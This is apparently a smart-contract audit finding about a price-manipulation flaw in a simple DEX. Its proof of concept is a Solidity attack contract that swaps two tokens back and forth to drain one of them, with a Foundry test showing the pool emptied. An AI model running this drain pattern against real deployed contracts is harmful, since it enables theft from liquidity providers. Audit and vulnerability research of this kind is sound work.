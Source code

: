 ### [S-1] Price Manipulation by Unbalanced Token Swaps

**Description:**
The DEX contract allows users to swap between two tokens without enforcing proper safeguards against price manipulation. An attacker can exploit this by performing repeated swaps between the two tokens, artificially manipulating their prices and draining the contract of one of the tokens completely.

**Impact:**

An attacker can drain the entire balance of one of the tokens from the DEX contract. This results in a significant financial loss for the DEX and its liquidity providers, as the tokens locked in the contract can be maliciously extracted by the attacker.

**Proof of Concept:**

Below is the attack contract and test case demonstrating how the exploit can be performed:

<details> 
<summary>Attack Contract Code</summary>

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import {Dex} from "./Dex.sol";


contract HackDex{
    Dex public dex;
    IERC20 public token1;
    IERC20 public token2;
    constructor(address _dex, address _token1,address _token2){
        dex = Dex(_dex);
        token1 = IERC20(_token1);
        token2 = IERC20(_token2);
    }

    function attakc() public{

        token1.approve(address(dex), type(uint256).max);
        token2.approve(address(dex), type(uint256).max);

        dex.swap(address(token1), address(token2), 10);

        //swap 4 more times
          for (uint i = 0; i < 5; i++) {
            uint256 balance1 = token1.balanceOf(address(this));
            dex.swap(address(token1), address(token2), balance1);

            uint256 balance2 = token2.balanceOf(address(this));
            dex.swap(address(token2), address(token1), balance2);
        }
        

        
    }


}

```
</details>

<details> 
<summary>Test Contract Code</summary>

```javascript

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import {Dex} from "../src/Dex.sol";
import {HackDex} from "../src/HackDex.sol";


contract MockERC20 is ERC20 {
    constructor(string memory name, string memory symbol) ERC20(name, symbol) {}

    function mint(address to, uint256 amount) external {
        _mint(to, amount);
    }
}

contract DexTest is Test {
    Dex public dex;
    // IERC20 public token1;
    // IERC20 public token2;
    MockERC20 public token1;
    MockERC20 public token2;

    HackDex public hackDex;


    function setUp() public {
        dex = new Dex(address(this));
        // token1 = IERC20(Token1);
        // token2 = IERC20(Token2);
        token1 = new MockERC20("Token1", "TKN1");
        token2 = new MockERC20("Token2", "TKN2");

      
        token1.mint(address(this), 110);
        token2.mint(address(this), 110);
        token1.mint(address(dex), 100);
        token2.mint(address(dex), 100);

        dex.setTokens(address(token1), address(token2));

        hackDex = new HackDex(address(dex), address(token1), address(token2));


        // Transfer initial tokens to the HackDex contract
        token1.transfer(address(hackDex), 10);
        token2.transfer(address(hackDex), 10);
    }
  function testAttack() public {
        token1.approve(address(dex), 110);
        token2.approve(address(dex), 110);

        token1.approve(address(hackDex), 110);
        token2.approve(address(hackDex), 110);

        dex.addLiquidity(address(token1), 100);
        dex.addLiquidity(address(token2), 100);

        hackDex.attakc();


        // Assert the DEX is drained of one of the tokens
        assertEq(token1.balanceOf(address(dex)), 0);
        //assertEq(token2.balanceOf(address(dex)), 0);
    }
}

```
</details> 


**Recommended Mitigation:**

Implement Safeguards Against Price Manipulation and slippage controls.



